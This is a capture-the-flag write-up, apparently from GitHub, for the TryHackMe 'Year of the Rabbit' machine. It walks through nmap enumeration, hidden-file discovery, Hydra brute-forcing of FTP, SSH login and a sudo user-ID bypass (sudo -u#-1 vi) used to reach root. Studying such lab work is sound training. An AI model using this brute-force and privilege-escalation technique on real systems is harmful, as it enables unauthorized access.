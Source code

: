 
---

## 🕵️ Nmap Results:

```bash
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 60 vsftpd 3.0.2
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.10 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### ➡️ Next Steps:
- After performing **Directory & Vhost Fuzzing**, we discovered an important directory: `/sup3r_s3cr3t_fl4g.php`.
- Redirected to a **rickroll** video on YouTube, we intercepted this request:

```bash
GET //intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
```

### 🔍 Hidden Directory:
Using `strings` on the `pic.png` file reveals a **username and password for FTP access**.

```bash
ftpuser: 5***1wGXK***Q
```

---

## 🛠 Brute Force & FTP:
- Running `Hydra`, we brute-forced the FTP login to access `Elis_cred.txt`.
- The file was encoded in **Brainfuck** language, decoded to reveal credentials:

```bash
User: eli
Password: D***iM1w***id
```

---

## 🚪 SSH Access:
Once logged in as **eli**, we discovered an important message from Root to Gwendoline:
> "Check our leet s3cr3t hiding place..."

Using the `locate` command, we found a **hidden message** file that contained the password for user **Gwendoline**.

---

## 🔑 Privilege Escalation:
- As **Gwendoline**, running `sudo -l` showed a command vulnerability:
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
- This allowed us to bypass the root restriction, and we gained **root access** by executing:

```bash
root@year-of-the-rabbit:/root# cat root.txt 
THM{8d6f163a87a***0de27a4fd***ef0f3a0ecf9161}
```

---

### 🎉 Success! Another machine owned: **Year of the Rabbit** 🎉

